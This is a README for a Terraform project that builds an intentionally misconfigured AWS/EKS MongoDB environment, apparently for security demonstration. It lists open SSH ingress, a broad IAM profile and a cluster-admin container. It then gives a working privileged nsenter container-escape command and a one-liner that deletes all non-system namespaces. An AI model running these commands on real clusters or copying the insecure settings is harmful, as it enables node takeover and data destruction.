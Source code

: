 # aws-tasky
This repo will build all required AWS Networking and resources to run a 3 tiered MongoDB app.  This includes EC2, EKS, S3, Route53, and AWS Config.

This environment will address the following security use cases below.
* [configuration](https://github.com/ppresto/aws-consul-pd/blob/main/README_Consul_Failover.md)

## Pre Reqs
- Setup shell with AWS credentials
- AWS Key Pair
- Terraform 1.3.7+
- aws cli
- kubectl
- helm
- curl
- jq

## Getting Started
```
cd quickstart/infra
```
Update the `my.auto.tfvars` for your environment.  Configure your existing AWS Key Pair or copy a local SSH key to your region using this script `./scripts/push-aws-sshkey-multiregion.sh`. Review the prefix being used for resource names, the EKS version, private zone name for route53, and external  CIDR for SSH access. 

### Provision Infrastructure
Use terraform to build the required AWS Infrastructure
```
terraform init
terraform apply -auto-approve
```
All AWS resources have been provisioned and configured to support the tasky application.

### Resource Overview

#### VPC
* AWS VPC TF Module: [terraform-aws-modules/vpc/aws](https://github.com/ppresto/aws-tasky/blob/main/quickstart/infra/main.tf)
#### EC2
  * Route 53 Alias to EC2 IP
  * [IAM Profile](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_iam_profile/iam-profile.tf#L57) - Actions: "iam:GetRole","ec2:*","s3:GetObject","s3:PutObject","s3:PutObjectAcl","s3:DeleteObject","s3:ListBucket"
  * SG - [EC2](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2/main.tf#L30)
    * Ingress: Allow "0.0.0.0/0" -> TCP 22
    * Egress:  Allow "0.0.0.0/0: -> Any Protocol, Any Port
  * SG - [MongoDB](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_ec2_sg_mongod/main.tf#L12)
    * Ingress: Allow "10.15.0.0/20" -> TCP 27017

#### Route53

#### S3 Bucket

#### MongoDB


#### EKS Cluster
The EKS 1.27 Cluster is running in the private subnet.

#### AWS Loadbalancer controller
The AWS LB controller was installed to support internal NLB or ALBs to EKS services.  This repo is adding the required tags to public and private subnets in order for the LB to properly discover EKS services.  [This repo installed the AWS LB Controller using the following steps](https://github.com/ppresto/aws-tasky/blob/main/modules/aws_eks_cluster_albcontroller/main.tf):
* Create the EKS Cluster Role: load-balancer-controller
* Create the SA: aws-load-balancer-controller
* Install Helm chart: aws-load-balancer-controller

### Connect to EKS clusters
Connect to EKS using `scripts/kubectl_connect_eks.sh`.  Pass this script the path to the terraform state file used to provision the EKS cluster.  If cwd is ./infra like above then this command would look like the following:
```
source ../../scripts/kubectl_connect_eks.sh .
```
This script connects EKS and builds some useful aliases shown in the output.

### Get Ingress URL
```

```

## Tasky Namespace (multitool container)
* why does it have a shell and package manager?
* why does it have cluster-admin privileges?

Install kubectl
```
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod 755 kubectl
# Describe rolebinding 
```

Escape into the Node
```
./kubectl run r00t --restart=Never -ti --rm --image tasky --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```

Delete other namespaces to show you have cluster-admin privileges
```
./kubectl get ns --no-headers=true | sed "/kube-*/d" | sed "/default/d" | sed "/tasky/d" | awk '{print $1;}' | xargs ./kubectl delete ns
```

List rolebindings or clusterroleBindings
```
./kubectl describe rolebinding -A
```

## Next Steps


## References
[OWASP Cheatsheets](https://cheatsheetseries.owasp.org/index.html)
[OWASP Cheatsheets Repo](https://github.com/OWASP/CheatSheetSeries)
[2023 OSS Security Report](https://go.snyk.io/state-of-open-source-security-report-2023-dwn-typ.html)
[HackTricksCloud](https://cloud.hacktricks.xyz/pentesting-cloud/kubernetes-security/abusing-roles-clusterroles-in-kubernetes)